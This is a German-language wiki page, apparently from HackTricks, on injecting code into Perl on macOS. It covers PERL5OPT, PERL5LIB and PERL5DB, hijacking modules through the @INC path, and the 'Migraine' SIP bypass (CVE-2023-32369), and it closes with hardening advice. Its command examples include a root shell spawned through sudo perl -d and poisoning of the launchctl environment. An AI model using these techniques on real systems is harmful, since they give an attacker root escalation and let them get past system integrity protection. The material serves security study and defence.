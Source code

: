 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Über die Umgebungsvariable `PERL5OPT` & `PERL5LIB`

Mit der Umgebungsvariable **`PERL5OPT`** ist es möglich, dass **Perl** willkürliche Befehle ausführt, wenn der Interpreter startet (sogar **bevor** die erste Zeile des Zielskripts geparst wird). 
Zum Beispiel, erstellen Sie dieses Skript:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Jetzt **exportiere die Umgebungsvariable** und führe das **perl**-Skript aus:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Eine weitere Möglichkeit besteht darin, ein Perl-Modul zu erstellen (z. B. `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
Und dann die Umgebungsvariablen verwenden, damit das Modul automatisch gefunden und geladen wird:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Andere interessante Umgebungsvariablen

* **`PERL5DB`** – wenn der Interpreter mit dem **`-d`** (Debugger) Flag gestartet wird, wird der Inhalt von `PERL5DB` als Perl-Code *innerhalb* des Debugger-Kontexts ausgeführt. Wenn Sie sowohl die Umgebung **als auch** die Befehlszeilenflags eines privilegierten Perl-Prozesses beeinflussen können, können Sie etwas wie Folgendes tun:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # wird eine Shell öffnen, bevor das Skript ausgeführt wird
```

* **`PERL5SHELL`** – unter Windows steuert diese Variable, welches Shell-Executable Perl verwenden wird, wenn es eine Shell starten muss. Sie wird hier nur der Vollständigkeit halber erwähnt, da sie unter macOS nicht relevant ist.

Obwohl `PERL5DB` den `-d` Schalter erfordert, ist es üblich, Wartungs- oder Installationsskripte zu finden, die als *root* mit diesem Flag aktiviert für ausführliche Fehlersuche ausgeführt werden, wodurch die Variable ein gültiger Eskalationsvektor wird.

## Über Abhängigkeiten (@INC-Missbrauch)

Es ist möglich, den Include-Pfad aufzulisten, den Perl durchsuchen wird (**`@INC`**), indem Sie Folgendes ausführen:
```bash
perl -e 'print join("\n", @INC)'
```
Typische Ausgaben auf macOS 13/14 sehen folgendermaßen aus:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Einige der zurückgegebenen Ordner existieren nicht einmal, jedoch existiert **`/Library/Perl/5.30`**, ist *nicht* durch SIP geschützt und befindet sich *vor* den SIP-geschützten Ordnern. Daher, wenn Sie als *root* schreiben können, können Sie ein bösartiges Modul (z.B. `File/Basename.pm`) ablegen, das *bevorzugt* von jedem privilegierten Skript, das dieses Modul importiert, geladen wird.

> [!WARNING]
> Sie benötigen weiterhin **root**, um in `/Library/Perl` zu schreiben, und macOS zeigt ein **TCC**-Prompt an, das nach *Vollzugriff auf das Laufwerk* für den Prozess fragt, der die Schreiboperation durchführt.

Wenn beispielsweise ein Skript **`use File::Basename;`** importiert, wäre es möglich, `/Library/Perl/5.30/File/Basename.pm` zu erstellen, das vom Angreifer kontrollierten Code enthält.

## SIP-Umgehung über den Migrationsassistenten (CVE-2023-32369 “Migraine”)

Im Mai 2023 gab Microsoft **CVE-2023-32369** bekannt, mit dem Spitznamen **Migraine**, eine Post-Exploitation-Technik, die es einem *root*-Angreifer ermöglicht, den **System Integrity Protection (SIP)** vollständig zu **umgehen**. 
Die verwundbare Komponente ist **`systemmigrationd`**, ein Daemon mit der Berechtigung **`com.apple.rootless.install.heritable`**. Jeder von diesem Daemon erzeugte Kindprozess erbt die Berechtigung und läuft daher **außerhalb** der SIP-Beschränkungen.

Unter den von den Forschern identifizierten Kindern befindet sich der von Apple signierte Interpreter:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Weil Perl `PERL5OPT` (und Bash `BASH_ENV`) respektiert, reicht es aus, die *Umgebung* des Daemons zu vergiften, um willkürliche Ausführung in einem SIP-losen Kontext zu erlangen:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
Wenn `migrateLocalKDC` ausgeführt wird, startet `/usr/bin/perl` mit dem bösartigen `PERL5OPT` und führt `/private/tmp/migraine.sh` *aus, bevor SIP wieder aktiviert wird*. Von diesem Skript aus können Sie beispielsweise einen Payload in **`/System/Library/LaunchDaemons`** kopieren oder das erweiterte Attribut `com.apple.rootless` zuweisen, um eine Datei **unlöschbar** zu machen.

Apple hat das Problem in macOS **Ventura 13.4**, **Monterey 12.6.6** und **Big Sur 11.7.7** behoben, aber ältere oder nicht gepatchte Systeme bleiben ausnutzbar.

## Empfehlungen zur Härtung

1. **Gefährliche Variablen löschen** – privilegierte launchdaemons oder Cron-Jobs sollten mit einer sauberen Umgebung gestartet werden (`launchctl unsetenv PERL5OPT`, `env -i` usw.).
2. **Vermeiden Sie es, Interpreter als root auszuführen**, es sei denn, es ist unbedingt erforderlich. Verwenden Sie kompilierte Binärdateien oder entziehen Sie frühzeitig die Berechtigungen.
3. **Vendor-Skripte mit `-T` (Taint-Modus)**, damit Perl `PERL5OPT` und andere unsichere Schalter ignoriert, wenn die Taint-Prüfung aktiviert ist.
4. **Halten Sie macOS auf dem neuesten Stand** – “Migraine” ist in den aktuellen Versionen vollständig gepatcht.

## Referenzen

- Microsoft Security Blog – “Neue macOS-Sicherheitsanfälligkeit, Migraine, könnte den Systemintegritätsschutz umgehen” (CVE-2023-32369), 30. Mai 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) Forschung”, Mai 2025.

{{#include ../../../banners/hacktricks-training.md}}
